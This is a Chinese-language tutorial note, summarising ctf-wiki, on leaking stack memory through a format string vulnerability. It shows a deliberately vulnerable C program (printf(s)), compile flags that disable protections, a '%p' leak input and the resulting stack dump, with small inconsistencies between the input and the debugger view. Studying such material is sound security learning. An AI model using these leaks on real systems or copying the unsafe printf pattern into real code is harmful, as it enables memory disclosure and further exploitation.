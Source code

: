 # 格式化字符串漏洞基础利用

> 阅读 ctf-wiki 后总结

## 泄露内存 

利用格式化字符串漏洞，我们还可以获取我们所想要输出的内容。一般会有如下几种操作

- 泄露栈内存
  - 获取某个变量的值
  - 获取某个变量对应地址的内存
- 泄露任意地址内存
  - 利用 GOT 表得到 libc 函数地址，进而获取 libc，进而获取其它 libc 函数地址
  - 盲打，dump 整个程序，获取有用信息。

### 简单的泄露栈内存 

例如，给定如下程序

```c
#include <stdio.h>
# file:leakmemory.c
int main() {
  char s[100];
  int a = 1, b = 0x22222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);	//格式化字符串漏洞
  return 0;
}
```

32 位程序使用的是栈传参，64 位系统前 7 个参数是用寄存器传参。32 位程序可以直接利用格式化字符串泄露出存在栈上的参数。（64 位要对应调整）

编译 32 位程序：

```shell
gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
```

输入输出如下：

```shell
>>>%p.%p.%p
00000001.22222222.ffffffff.%p.%p.%p
0xffffcd10.0xc2.0xf7e8b6bb
```

栈情况：

```shell
────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%08x.%08x.%08x"
# 开始泄露位置
0xffffcd04│+0x08: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: "%08x.%08x.%08x"   ← $eax
0xffffcd14│+0x18: ".%08x.%08x"
0xffffcd18│+0x1c: "x.%08x"
```

